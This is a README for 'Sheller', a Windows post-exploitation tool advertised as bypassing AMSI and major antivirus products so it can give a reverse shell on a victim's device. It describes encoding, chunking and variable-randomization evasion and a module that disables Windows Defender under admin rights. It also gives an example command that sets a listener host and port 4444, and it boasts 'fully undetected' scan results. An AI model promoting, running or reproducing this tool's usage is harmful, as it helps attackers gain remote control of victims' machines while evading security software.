 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
To see Information:
```python 
python3 sheller.py
```
![sheller_help](https://user-images.githubusercontent.com/73026669/150557890-cdb78323-3708-4932-8355-c98f5b05a660.jpg)


# Example
``
python sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v: 
``

<a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>
![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)
